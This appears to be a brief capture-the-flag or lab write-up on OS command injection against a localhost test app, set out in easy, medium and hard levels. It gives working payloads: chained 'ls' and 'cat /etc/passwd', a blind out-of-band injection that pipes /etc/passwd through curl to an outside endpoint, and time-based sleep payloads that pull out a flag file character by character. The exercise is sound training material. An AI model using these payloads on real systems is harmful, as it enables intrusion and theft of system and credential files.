

## OS Command

### Easy

Check test feature 

`http://localhost:3000/test?domain=facebook.com;%20ls%20/`

domain = facebook.com; ls /

cat /etc/passwd

### Medium

Use out of band technique

We inject `; ls /` but it still show `nslookup`
=> Blind OS Command

add `facebook.com; cat /etc/passwd | curl -X POST -d @- https://example.com/api/endpoint`

### Hard

Use time-based 

Xác định số ký tự:

`123; if+[ “$(wc -c flag.txt | cut -c 1)” = “5” ]; then sleep 30; fi`

Find flag:
`123; if+[ “$(cat flag.txt | cut -c 1)” = “P” ]; then sleep 30; fi`

`